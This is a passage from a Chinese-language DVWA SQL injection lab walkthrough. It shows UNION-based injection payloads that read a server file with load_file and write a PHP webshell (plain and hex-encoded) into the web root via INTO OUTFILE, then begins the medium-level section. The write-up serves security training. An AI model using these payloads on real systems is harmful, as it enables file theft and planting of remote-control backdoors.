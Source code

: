 ![image-20220726164435001](assets/image-20220726164435001.png)



### 2.1.3 注入利用

**读取文件**

```bash
1' union select 1,load_file('E:/status.txt')#
```



**写入webshell**

```bash
1' union select 1,'<?php assert($_POST[a]);?>' into outfile 'C:/phpstudy_pro/WWW/DVWA/hackable/uploads/sh.php'#

或者1' union select 1,0x3c3f7068702061737365727428245f504f53545b615d293b3f3e into outfile 'C:/phpstudy_pro/WWW/DVWA/hackable/uploads/sh.php'#
```



## 2.2 Medium

### 2.2.1、查看源码

发现在用户输入的地方做了防御：

* 限制用户输入，**请求方式从GET变为POST**。
